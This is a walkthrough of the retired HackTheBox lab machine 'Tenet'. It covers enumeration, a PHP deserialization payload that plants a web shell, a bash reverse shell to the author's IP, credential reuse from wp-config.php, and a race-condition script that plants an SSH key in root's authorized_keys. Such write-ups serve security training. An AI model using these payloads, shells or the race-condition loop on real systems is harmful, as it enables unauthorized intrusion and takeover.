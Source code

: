 # Tenet

This is the write-up for the box Tenet that got retired at the 12th June 2021.
My IP address was 10.10.14.4 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.223    tenet.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/tenet.nmap 10.10.10.223
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website shows the _Apache2 Ubuntu Default Page_.
Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.223 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the directory _wordpress_ which is a **WordPress** blog with two articles.
It automatically forwards to _tenet.htb_ when having the hostname in the _/etc/hosts_ file.

One article is written by the user _protagonist_ and seems to have some hints about a time-management service:
```
We're looking for beta testers of our new time-management software, 'Rotas'

'Rotas' will hopefully be coming to market late 2021, pending rigorous QA from our developers, and you!

For more information regarding opting-in, watch this space.
```

Another article with the title _"Migration"_ has a comment from the user _neil_:
```
did you remove the sator php file and the backup?? the migration program is incomplete! why would you do this?!
```

The file _sator.php_ can be found on the web server on 10.10.10.223 but it has no valuable information:
```
[+] Grabbing users from text file
[] Database updated
```

Backup files often have the extension of _.bak_ and by trying that, the _sator.php.bak_ can be found there, too.
It has PHP code and uses a _destruct function_ with the _file_put_contents_ function and is vulnerable to **PHP Deserialization**.

Creating a serialized object that uploads _shell.php_ to execute system commands:
```php
class DatabaseExport
{
        public $user_file = 'shell.php';
        public $data = '<?php system($_REQUEST["cmd"]); ?>';
}

$pwn = new DatabaseExport;
echo (serialize($pwn));
```
```
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
```

Sending the serialized object to the parameter _arepo_:
```
http://10.10.10.223/sator.php?arepo=O:14:%22DatabaseExport%22:2:{s:9:%22user_file%22;s:9:%22shell.php%22;s:4:%22data%22;s:34:%22%3C?php%20system($_REQUEST[%22cmd%22]);%20?%3E%22;}
```

Testing command execution:
```
curl 10.10.10.223/shell.php?cmd=id
```

It works and shows the output of the `id` command.
Starting a reverse shell:
```
POST /shell.php HTTP/1.1
Host: 10.10.10.223

cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

The configuration file _/var/www/html/wordpress/wp-config.php_ has credentials for a database user:
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );  

/** MySQL database username */                                                                    
define( 'DB_USER', 'neil' );                                                                      

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

Trying the credentials for the user _neil_ on SSH:
```
ssh neil@10.10.10.22
```

It works a escalates the privileges to _neil_.

### Privilege Escalation to root

The user _neil_ can run _enableSSH.sh_ with root privileges:
```
sudo -l

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

It is a bash script and puts an SSH key to _/root/.ssh/authorized_keys_.
The function _addKey()_ creates a temporary file in _/tmp_ and checks if it exists.

This script is vulnerable to a **Race Condition** by replacing the contents of the written file to _/tmp_ before it gets checked, we could add our own SSH key into _authorized_keys_.

Creating an SSH key on our local client:
```
ssh-keygen -f tenet.key
```

Creating a script in _/tmp_ that writes the created public key into any created file that starts with _"ssh"_:
```bash
while true; do
        for file in $(ls); do
                if [[ $file == ssh* ]]; then
                        echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDd7S9(...)" > $file;
                fi
        done
done
```

Executing the script:
```
bash brute_tenet.sh
```

While the script runs in a loop, the _enableSSH.sh_ script has to be executed several times:
```
sudo /usr/local/bin/enableSSH.sh
```

If it works and overwrites the SSH key with our key, it will be possible to SSH into the box as root!
```
ssh -i tenet.key 10.10.10.223
```

